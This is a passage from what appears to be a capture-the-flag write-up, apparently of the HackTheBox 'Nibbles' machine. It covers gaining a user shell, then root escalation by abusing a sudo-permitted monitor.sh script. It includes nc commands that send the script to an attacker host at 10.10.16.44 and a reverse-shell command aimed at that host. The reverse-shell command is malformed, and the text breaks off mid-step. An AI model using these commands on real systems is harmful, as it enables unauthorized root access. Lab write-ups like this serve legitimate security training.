 ```php
}

?> 
```

Accomplish the last step, get the user shell!

![AetbKx.png](https://s2.ax1x.com/2019/03/17/AetbKx.png)

![AeNAZ8.png](https://s2.ax1x.com/2019/03/17/AeNAZ8.png)

## Privilege escalation

The next step is to get the root shell. Try to check the kernel of the linux:

![AeNuzn.png](https://s2.ax1x.com/2019/03/17/AeNuzn.png)

The kernel seems quite fresh. It may be hard to find the kernel exploit. Try to check the sudo permission of nibbler: `sudo -l`.

![AeNrdO.png](https://s2.ax1x.com/2019/03/17/AeNrdO.png)

Just as expected, find a file `monitor.sh` with root permission. Try to read the file with:

```
cat /home/nibbler/personal/stuff/monitor.sh
```

![AeUA61.png](https://s2.ax1x.com/2019/03/17/AeUA61.png)

The file seems to be a bash script with several tasks. There is no need to understand the usage of the file. We can just modify the script to obtain root shell. So the script should be modified. As it is not convenient to modify the file in the victim machine directly. `Nc` can be used to send and receive file.

As the sender:

```
nc -w 3 10.10.16.44 1234 < monitor.sh
```

As the receiver:

```
nc -lvnp 1234 > monitor.sh
```

You can change the send and receiver as needed. It is basic skills to transfer files between the victim machine and attack machine. `Nc` is a good tool in linux.

Firstly, `nc` is used to reverse shell:

```
nc -e 10.10.16.44 1111
```

Try to set `nc` listen to `1111`:
